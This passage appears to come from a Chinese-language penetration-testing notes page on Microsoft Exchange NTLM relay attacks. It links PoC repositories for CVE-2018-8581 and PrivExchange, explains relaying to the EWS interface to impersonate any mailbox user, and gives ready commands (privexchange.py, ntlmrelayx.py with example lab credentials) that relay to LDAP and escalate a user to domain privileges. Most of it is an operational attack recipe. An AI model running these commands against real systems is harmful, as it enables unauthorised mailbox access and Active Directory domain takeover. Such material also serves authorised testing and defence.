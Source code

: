 **POC | Payload | exp**
- [Ridter/Exchange2domain](https://github.com/Ridter/Exchange2domain)
- [WyAtu/CVE-2018-8581](https://github.com/WyAtu/CVE-2018-8581)
- [dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange)

**http relay to EWS 接口**

由于 Exchange 是以 System 用户的权限运行, 因此我们拿到的是机器用户的 Net-Ntlm Hash。并不能直接用以登录。但是 Exchange 机器用户可以获得 TokenSerializationRight 的 ”特权” 会话，可以 Relay 到 机子本身的 Ews 接口，然后可以使用 SOAP 请求头来冒充任何用户。
- https://github.com/WyAtu/CVE-2018-8581

本地 NT AUTHORITY\SYSTEM 账户对 Exchange 服务器拥有 ms-Exch-EPI-Token-Serialization 权限，可以在连接 /EWS 接口时修改 SOAP Header 为其他邮箱用户的 SID 来模拟成任何邮箱用户。因此可以中继至 /EWS 接口，实现任意用户的邮件发送、邮件下载、邮件委托、设置主页等功能。
```bash
# 查看本地 NT AUTHORITY\SYSTEM 账户对 Exchange 服务器拥有 ms-Exch-EPI-Token-Serialization 权限
PS C:\> Get-ADPermission -Identity WIN2012-Ex2016 | where {($_.ExtendedRights -like "ms-Exch-EPI-Token-Serialization") -and $_.Deny -like "False"} |fl

# 手动修改 CVE-2018-8581_debug.py 参数后执行
python2 CVE-2018-8581_debug.py

# 然后 zhangsan 可以打卡 lisi 的收件箱文件夹查看其邮件。
```

**http relay to LDAP**

所有的 Exchange Server 都在 Exchange Windows Permissions 组里面, 而这个组默认就对域有 WriteACL 权限.

因此我们可以 relay 到 LDAP, 而又由于 Relay 到的服务端是 Ldap,Ldap 服务器的默认策略是协商签名。而不是强制签名。是否签名由客户端决定。在 SSRF 里面发起的请求是 http 协议，http 协议是不要求进行签名.

Exchange 机器账户对域分区拥有 WriteDacl 权限，直接通过 ACL 进行提权。
```bash
# 设定订阅
python3 privexchange.py win2012-ex2016.island.com -d island.com -ah 192.168.123.123 -u zhangsan -p ZS@123qwe --debug

# 内网机器上做中继，自动通过 ACL 进行提权
python3 ntlmrelayx.py -t ldap://WIN2012-DC1.island.com --escalate-user zhangsan --no-dump
```

#### ProxyRelay

**相关文章**
- [A New Attack Surface on MS Exchange Part 4 - ProxyRelay!](https://blog.orange.tw/2022/10/proxyrelay-a-new-attack-surface-on-ms-exchange-part-4.html)

---

### LDAP中继

**相关文章**
- [How to Exploit Active Directory ACL Attack Paths Through LDAP Relaying Attacks](https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/)

#### LDAP签名
